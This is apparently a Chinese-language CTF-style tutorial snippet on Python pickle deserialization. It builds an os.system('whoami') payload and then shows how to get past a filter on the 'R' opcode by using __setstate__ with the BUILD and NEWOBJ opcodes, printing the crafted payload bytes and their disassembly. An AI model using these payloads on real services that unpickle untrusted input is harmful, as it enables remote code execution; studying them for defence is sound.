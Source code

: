 先看常规payload

```python
class exp_demo:

    def __reduce__(self):
        import os
        return os.system, ('whoami', )
print(pickletools.optimize(pickle.dumps(exp_demo(), protocol=0)))
pickletools.dis(pickletools.optimize(pickle.dumps(exp_demo(), protocol=0)))
# 常规： b'cnt\nsystem\n(Vwhoami\ntR.'
```

对于这个例子来说，要想 RCE，需要过这里的 if，也就是不能用 `R`。

这 R 如何去除呢？`b` 就派上用场了。

```Python
class exp_demo:

    def __init__(self):
        import os
        self.__setstate__ = os.system

    # def __reduce__(self):
    #     import os
    #     return os.system, ('whoami', )

print('2————————————————————————————————————————————————————————————————————————')
print(pickletools.optimize(pickle.dumps(exp_demo(), protocol=0)))
pickletools.dis(pickletools.optimize(pickle.dumps(exp_demo(), protocol=0)))
# 常规： b'cnt\nsystem\n(Vwhoami\ntR.'
# 自动生成paylaod：b'ccopy_reg\n_reconstructor\n(c__main__\nexp_demo\nc__builtin__\nobject\nNtR(dV__setstate__\ncnt\nsystem\nsb.'
# payload：b'ccopy_reg\n_reconstructor\n(c__main__\nexp_demo\nc__builtin__\nobject\nNtR(dV__setstate__\ncnt\nsystem\nsbVwhoami\nb.'

# 你会发现里面还是存在R用于构建实例，这时候就要更换版本，利用\x81来创建实例
# \x81 其实就是通过 cls.__new__ 来创建一个实例，需要栈顶有 args（元组） 和 kwds（字典）。
print(pickletools.optimize(pickle.dumps(exp_demo(), protocol=3)))
pickletools.dis(pickletools.optimize(pickle.dumps(exp_demo(), protocol=3)))
"""
b'\x80\x03c__main__\nexp_demo\n)\x81}X\x0c\x00\x00\x00__setstate__cnt\nsystem\nsb.'
    0: \x80 PROTO      3
    2: c    GLOBAL     '__main__ exp_demo'
   21: )    EMPTY_TUPLE
   22: \x81 NEWOBJ
   23: }    EMPTY_DICT
   24: X    BINUNICODE '__setstate__'
   41: c    GLOBAL     'nt system'
   52: s    SETITEM
   53: b    BUILD
   54: .    STOP
highest protocol among opcodes = 2

payload：b'\x80\x03c__main__\nexp_demo\n)\x81}X\x0c\x00\x00\x00__setstate__cnt\nsystem\nsbVwhoami\nb.'
"""
```
